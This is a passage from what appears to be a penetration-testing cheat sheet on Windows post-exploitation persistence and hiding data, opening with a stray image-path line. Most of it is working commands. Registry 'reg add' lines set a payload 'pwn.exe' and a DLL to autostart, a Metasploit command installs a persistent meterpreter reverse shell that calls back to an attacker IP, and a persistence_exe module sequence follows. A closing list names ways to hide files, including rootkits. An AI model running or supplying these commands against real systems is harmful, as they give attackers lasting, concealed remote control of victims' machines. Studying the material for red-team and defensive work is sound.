 ```

reg add "HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\RunServices"
/v wePwnU /t REG_SZ /d "C:\tmp\pwn.exe"

reg add "HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\RunServicesOnce"
/v wePwnU /t REG_SZ /d "C:\tmp\pwn.exe"
```

Two Additional registry keys can be used to execute either an arbitrary payload or a DLL

```
reg add "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\RunOnceEx\0001"
/v wePwnU /t REG_SZ /d "C:\tmp\pwn.exe"

reg add
"HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\RunOnceEx\0001\Depend" /v wePwnU /t REG_SZ /d "C:\tmp\pwn.dll"
```


#### METASPLOIT PERSISTENCE
You can run Metasploit script
```
run persistence -U -P windows/x64/meterpreter/reverse_tcp -i 5 -p 443 -r <attacker IP>
```

 - Or you can use the Metasploit post module persistence_exe:
```
use post/windows/manage/persistence_exe
set REXEPATH /tmp/pentestlab.exe
set SESSION 2
set STARTUP USER
set LOCALEXEPATH C:\\tmp
run
```

#### ADDITIONAL PERSISTENCE TOOLS
- Metasploit persistence module examples:
	- Windows Manage User Level Persistent Payload Installer
	- Windows Persistent Registry Startup Payload Installer
	- Windows Persistent Service Installer
	- Persistent Payload in Windows Volume Shadow Copy
- GitHub lists 33 post exploitation persistence repositories
	- Example:harleyQu1nn/AggressorScripts/tree/master/Persistence

#### 6.20 HIDING DATA

#### HIDING FILES
- If you want to ensure that files you leave behind are not visible, you can use various methods to hide them:
	- File attributes 
	- Alternate Data streams
	- Steganography
	- Third-party rootkits, drivers and DLLs to hide files and processess
